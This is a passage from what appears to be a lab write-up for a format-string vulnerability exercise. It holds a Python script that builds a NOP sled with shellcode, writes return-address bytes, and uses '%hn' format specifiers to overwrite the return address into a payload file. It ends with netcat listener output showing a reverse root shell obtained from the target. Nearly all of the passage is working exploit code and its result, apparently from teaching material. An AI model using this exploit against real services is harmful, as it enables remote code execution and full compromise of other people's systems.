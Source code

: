 ```python
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target
shellcode = shellcode_32

# Put the shellcode somewhere in the payload
start = 1500-len(shellcode)       #0d1364       
content[start:start + len(shellcode)] = shellcode

 #        ffff                 db64
#0xFFFFD53C+2            0xFFFFD53C

ret_addr=0xFFFFD53C

ret_addr_low=ret_addr     # DA90
ret_addr_high=ret_addr+2  # FFFF

#change retaddr into 0xffffd610+0d1364=0xffff DA90

# new_ret=ret_addr+1364

content[0:4]=(ret_addr_low).to_bytes(4,byteorder='little')

content[4:8]=("AAAA").encode("latin-1")

content[8:12]=(ret_addr_high).to_bytes(4,byteorder='little')
#0xDA90-12-8*62=55952-508=55444
data = "%.8x"*62 + "%.55444x" + "%hn" + "%.9583x" + "%hn"
data = (data).encode('latin-1')
content[12:12+len(data)] = data

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(content)
```

回显

```
$ nc -nv -l 9090 
Listening on 0.0.0.0 9090
Connection received on 10.9.0.5 58502
root@d21da27aa2b7:/fmt# 
```

# Task 5: Attacking the 64-bit Server Program
